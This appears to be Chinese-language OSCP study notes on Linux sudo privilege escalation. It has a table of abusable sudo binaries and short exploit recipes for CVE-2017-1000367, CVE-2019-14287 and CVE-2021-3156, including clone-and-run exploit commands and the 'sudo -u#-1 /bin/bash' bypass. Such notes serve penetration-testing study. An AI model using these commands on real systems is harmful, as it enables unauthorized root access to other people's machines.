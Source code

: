﻿# Linux  sudo 滥用和 sudo漏洞提权

---

## Table of Contents
 * [sudo 滥用](#sudo-滥用)
 * [sudo 漏洞](#sudo-漏洞)
  * [CVE-2017-1000367](#CVE-2017-1000367)
  * [CVE-2019-14287](#CVE-2019-14287)
  * [CVE-2021-3156](#CVE-2021-3156)

---
# [](#sudo-滥用) sudo 滥用
已知的可用来sudo滥用提权的`linux`可执行文件列表

| 命令   | 命令     | 命令       | 命令      | 命令         | 命令        | 命令    | 
|--------|----------|------------|-----------|--------------|-------------|---------|
| [awk](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/awk.md)| [expect](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/expect.md) | [flock](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/flock.md)| [ftp](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/ftp.md)| [ionice](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/ionice.md)| [less](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/less-more.md)|[more](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/less-more.md)|
|[man](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/man.md)| [rpm](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/rpm.md)| [setarch](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/setarch.md)| [stdbuf](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/stdbuf.md)| [tcpdump](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/tcpdump.md)| [xargs](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/xargs.md)|

---
# [](#sudo-漏洞) sudo 漏洞
* [](CVE-2017-1000367)CVE-2017-1000367
这个项目指定了通过/usr/bin/sum来sudo提权，请根据自己的sudo情况修改文件名
```
git clone https://github.com/c0d3z3r0/sudo-CVE-2017-1000367.git
cd sudo-CVE-2017-1000367
gcc -o sudopwn sudopwn.c -lutil
./sudopwn
```
* [](CVE-2019-14287 )CVE-2019-14287
 
```
$ sudo -u#-1 /bin/bash
或者
$ sudo -u#4294967295 /bin/bash
```

 * [](CVE-2021-3156)CVE-2021-3156
基于堆的缓冲区溢出漏洞
受影响版本
Sudo 1.8.2 - 1.8.31p2
Sudo 1.9.0 - 1.9.5p1
```
git clone https://github.com/blasty/CVE-2021-3156.git
make
./sudo-hax-me-a-sandwich 0
```
